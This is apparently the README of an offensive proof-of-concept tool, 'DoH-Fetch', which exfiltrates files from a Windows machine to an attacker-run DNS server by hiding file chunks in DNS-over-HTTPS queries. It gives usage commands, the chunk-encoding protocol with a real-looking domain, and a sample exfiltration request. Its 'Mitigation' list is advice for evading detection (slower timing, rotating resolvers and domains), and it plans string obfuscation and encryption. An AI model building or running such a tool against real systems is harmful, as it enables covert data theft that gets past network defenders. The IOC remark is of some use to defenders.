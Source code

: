 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```
# Architecture
Client (C#) - fetch.exe - ran on the Windows machine
1. Disassemble file for chunks
2. Create HTTPS requests with DNS query inside with chunks 

Server (Python) - dnspad.py  - ran on the Linux server machine (public IP + domain)
0. Stop services running on port 53 (internet access)
1. Run DNS server on port 53
2. While getting DNS queries assemble chunks into a file

Domain config in Azure example:
<img width="688" alt="image" src="https://github.com/user-attachments/assets/bf7dcc64-25a0-42ec-9be6-9142c2d64312">


# RFC limitations
* Label / subdomain:  `63` characters maximum
* Full Domain: `255` characters maximum
* Total URL: `2,000` characters maximum 

# My protocol design
My limits: `a.abcdefghi.com` which is `15` chars 

File integrity ? chunk identification number

2 bytes for ID, how many maximum ID's ?
255 * 255 = 65,025 

`possibleID` * `databytes` = maximum file size (in bytes)
`65,025` * `228` = 14,825,700 -> around 15MB

<42data>.<62data>.<62data>.<62data>.<2id>.a.chromalin.com

42 + 186 + 2 + 1 +  9 + 3 = 243

'.' also counting -> 7 above

Total: `250` where `228` is data 

simple test.xslx excel file: `8.27` KB -> 8270 / 228 = 36.3, meaning `37` requests

# IOC
A LOT of http/https traffic in small period of time: https://1.1.1.1/dns-query?name=google.com

Example http uri:
`https://1.1.1.1/dns-query?name=5353534141410D0A73757065725365637265743132.32330D0A31323865736764736739347766696F617373646773646766383932.317220736673616B6C3871723933333238666A61736C660D0A535353414141.0D0A402324255E262A28295F6B3B616C666D706F65662065770D0A53535341.0000.a.abcdefghi.com`


Mitigation: avoid generating a pattern
0. use randomized IP as a DNS response
1. limit the number 253
2. try prolong, 5 request in 5 hours
3. use different DoH services and methods (POST requests, not only GET)
4. use different domains for server

# Future development ideas
1. client: strings obfuscation
2. client: add more DoH services (google)
3. client: add POST functionality for Cloudflare (weird protocol )
4. client: stream cipher encryption
5. server: stream cipher encryption
6. protocol optimalization for more data in one query (short domain)
https://micro.domains/
7. add a filename to protocol (for example first bytes- would tell the filename length, then filename itself, then contents of data)
8. 
Having 5 letters domain ? How many maximum data ? `243` bytes in data (currently `228` )

for example: `0qf.in`

 ```
 54 chars + 63chars + 63chars + 63chars + 12 chars
```
 243  12 chars
<42data>.<63data>.<63data>.<63data>.<2id>.a.0qf.in

